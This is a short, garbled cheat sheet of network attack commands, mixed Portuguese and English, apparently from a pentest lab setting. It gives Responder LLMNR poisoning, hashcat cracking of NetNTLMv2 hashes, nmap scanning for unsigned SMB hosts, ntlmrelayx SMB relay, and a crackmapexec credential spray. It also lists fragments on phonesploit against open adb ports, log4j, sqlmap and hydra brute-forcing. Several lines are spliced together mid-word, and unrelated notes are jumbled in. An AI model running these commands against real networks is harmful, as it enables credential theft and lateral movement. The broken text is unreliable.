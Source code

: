 # LLMNR Poisoning 

sudo responder -I eth0 -dwP 9Using Misconfigured NFS (2049) 
hashcat –m 5600 <hashfile.txt> <wordlist.txt>

# SMB Relay Attacks

nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24

Reuniremos todas as estações de trabalho sem assinatura SMB imposta e as colocaremos em um arquivo chamado targets.txt 



Utilizaremos Responder e ntlmrelayx para nosso ataque. Devemos primeiro configurar adequadamente o Responder para desabilitar as respostas SMB e HTTP, pois elas serão encaminhadas para ntlmrelayx (e eventualmente retransmitidas).

sudo nano  /etc/responder/Responder.conf

sudo responder –I eth0 -dwP
irst look for the port adb (5555) open in which network, use phonesploit to access the device, For scanning elf files use Detect it easy 


Por fim, iniciaremos o ntlmrelayx e aguardaremos a ocorrência de um evento.

sudo ntlmrelayx.py –tf targets.txt –smb2support

crackmapexec smb 192.168.28.0/24 -u peter -d MARVEL.local -p Password123
14log4j vulnerability / bruteforce login / sglmap login form / OWAZP Zap 
6heck for NFS port(2049) open, then exploit by using NFS Or try using hydra for SSH and FTP 

